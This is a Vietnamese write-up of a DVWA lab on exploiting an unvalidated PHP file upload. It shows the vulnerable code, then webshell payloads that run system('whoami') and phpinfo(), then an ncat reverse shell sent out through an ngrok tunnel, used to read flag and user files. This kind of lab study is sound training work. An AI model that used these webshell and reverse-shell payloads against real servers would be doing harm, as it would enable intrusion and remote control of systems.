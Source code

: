 # Vulnerability: File Upload (DVWA)

## Đề bài

![image](https://hackmd.io/_uploads/r1syS60aa.png)

- chúng ta cần đọc các file hệ thống như phpinfo() or system()

## LOW LEVEL

### Phân tích

- đọc source code mình được

```php!
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

- Đoạn mã kiểm tra xem biến POST có tên là 'Upload' có được gửi không. Điều này cho thấy rằng biểu mẫu HTML đã được gửi đi và người dùng đã nhấn nút tải lên.

- Nó xác định đường dẫn đích mà tệp tin sẽ được tải lên. Đường dẫn này thường được định nghĩa trước trong một hằng số hoặc biến toàn cục.

- Sau đó, nó kiểm tra xem tệp tin đã được tải lên chưa bằng cách sử dụng hàm move_uploaded_file(). Hàm này di chuyển tệp tin từ vị trí tạm thời lưu trữ tới đích chỉ định.

- Nếu quá trình di chuyển không thành công, mã sẽ in ra thông báo lỗi. Ngược lại, nó sẽ in ra đường dẫn tới tệp tin đã được tải lên thành công.

vậy đoạn code xử lý upload không có cơ chế validate file được tải lên mà sẽ up được mọi file của người dùng

### Khai thác

- up 1 file ảnh bình thường `anh.png` lên trang web và thành công
- mình sửa trường `filename` thành `anh.php` và upload vẫn thành công

![image](https://hackmd.io/_uploads/BJEuwa0pp.png)

mình thử 1 webshell để xem file có được thực thi code php không

```php!
<?php echo 'SECRET' . system('whoami') . 'SECRET'; ?>
```

kết quả trả về sẽ nằm trong chuổi **SECRET**

![image](https://hackmd.io/_uploads/HkqAQ6AT6.png)

đúng như ta đã phân tích web không có cơ chế validate và mình upload thành công

- và sau đó đọc được nội dung trả về

![image](https://hackmd.io/_uploads/rJ2676RTp.png)

thử đọc file chứa thông tin chi tiết về cấu hình của máy chủ PHP với payload

```php!
<?php echo 'SECRET' . file_get_contents(phpinfo()) . 'SECRET'; ?>
```

![image](https://hackmd.io/_uploads/B1yHIpA6p.png)

và thông tin được trả ra

![image](https://hackmd.io/_uploads/r1TjBpRT6.png)

- tiếp theo mình sẽ upload RCE để đọc các file trong hệ thống dễ dàng hơn
- đầu tiên tạo 1 netcat server

![image](https://hackmd.io/_uploads/HkUqMT06a.png)

- và mình sẽ dùng ngrok để public nó ra ngoài internet với lệnh `./ngrok.exe tcp 8000`

![image](https://hackmd.io/_uploads/SkfaGTAa6.png)

sau đó mình up payload

```php!
<?php exec('ncat 0.tcp.ap.ngrok.io 19893 -e cmd.exe') . 'SECRET'; ?>
```

![image](https://hackmd.io/_uploads/BkeOMaC66.png)

- truy cập lại file mình upload và thành công lấy được shell

![image](https://hackmd.io/_uploads/rkkdE6A6T.png)

![image](https://hackmd.io/_uploads/B1lRM60Ta.png)

- tiếp đó mình đi tìm thư mục `flags` và đọc được nội dung trong thư mục này

![image](https://hackmd.io/_uploads/SkuHmpRTp.png)

![image](https://hackmd.io/_uploads/SyktmT0pp.png)

hiển thị file này trên web

![image](https://hackmd.io/_uploads/Bkghh60Ta.png)

![image](https://hackmd.io/_uploads/B1Us3aRaT.png)

vào thư mục users và thấy được có file ảnh của admin

![image](https://hackmd.io/_uploads/HyXFppRaT.png)

- truy cập nó tại `http://localhost/dvwa/hackable/users/admin.jpg`
- ![image](https://hackmd.io/_uploads/ByNgCaATT.png)
